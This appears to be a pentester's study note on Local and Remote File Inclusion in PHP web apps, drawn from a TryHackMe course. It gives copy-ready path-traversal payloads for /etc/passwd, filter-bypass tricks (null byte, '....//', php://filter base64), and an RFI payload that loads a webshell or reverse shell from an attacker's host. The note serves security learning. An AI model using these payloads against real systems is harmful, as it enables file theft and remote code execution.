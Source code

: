 Local and Remote File Inclusion vulnerabilities affect web servers with unsanitized inputs into a field used to select a specific file on a device. Good candidates for LFI/RFI are language fields, as these usually serve an entirely different webpage. 

Tools:
- [[Burp Suite]]
# LFI
To test, use the `..` operator to maneuver through the filesystem and select the information you are looking for. Ex: `?site=default&lang=../../../../../../../etc/passwd`. This example is for use in a URL, like in `www.example.com`. To try LFI, add the string above to the URL, like so:
`www.example.com?site=default&lang=../../../../../../etc/passwd`. 

Methods exist of protecting against this attack that are also able to be bypassed. These include:
- Appending a suffix to the string provided; `/etc/passwd` becomes `/etc/passwd.php`
	- Defeated (before a current version of PHP) by appending `%00` to stop PHP processing the string before the suffix is reached. 
- Filtering out `../` sequences (non-recursively!).
	- Defeated by building a string that works after the filter has been applied: `....//` -> `../`
- Forcing the request to select from the current directory; `www/`
	- Defeated by selecting from this directory first, and then traversing out; `www/../../../../../`
- Blacklisting special files; `/etc/passwd` disallowed
	- Defeated by path traversal again; `/etc/passwd` -> `/etc/passwd/.`
We can also obtain files using PHP filters to base64 encode files that would otherwise be rendered by the web server. 
`?lang=php://filter/read=convert.base64-encode/resource=config`

Some other vulnerabilities also include:
- Filtering only on one request type. For $\_REQUEST calls, the request can be made as either a GET or a POST, but one method may be filtered while the other is not.

# RFI
RFI is even more problematic, because it can lead to immediate RCE. If a web server is horribly misconfigured, the field can be used to point the file requestor method to an http(s) server serving the file. If the file is an executable format like PHP, a webshell or even reverse shell can be planted on the target host and executed from the browser.  Ex: `?site=default&lang=http://<my ip>/webshell.php`. 

*Even if a webshell cannot be uploaded and called into* we may still upload a 
PHP reverse shell and gain command execution on the web server.

RFI example from THM Jr Pentester Path:
![[Remote-File-Inclusion.png]]

Essentially, if a website allows us to choose files, we can trick it into sending a GET request to our machine or website. Then, the victim website will unwittingly execute our malicious file. 

For more information on File Inclusion vulnerabilities, see the TryHackMe Junior Pentester Path. In its' Intro to Web Hacking module, they have a room on File Inclusion vulnerabilities. 

